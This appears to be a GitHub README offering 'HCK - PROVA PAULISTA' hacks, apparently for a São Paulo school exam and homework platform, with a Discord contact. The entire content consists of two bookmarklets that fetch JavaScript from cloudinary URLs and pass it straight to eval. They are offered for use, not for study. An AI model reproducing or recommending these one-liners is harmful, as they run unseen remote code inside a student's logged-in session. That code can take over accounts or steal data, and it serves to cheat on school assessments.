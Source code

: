 # 🚀 HCK - PROVA PAULISTA 

### STABLE HCK - PROVA PAULISTA:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```
### FANDANGOS - TAREFAS:
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745786682/saladofuturov2.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon

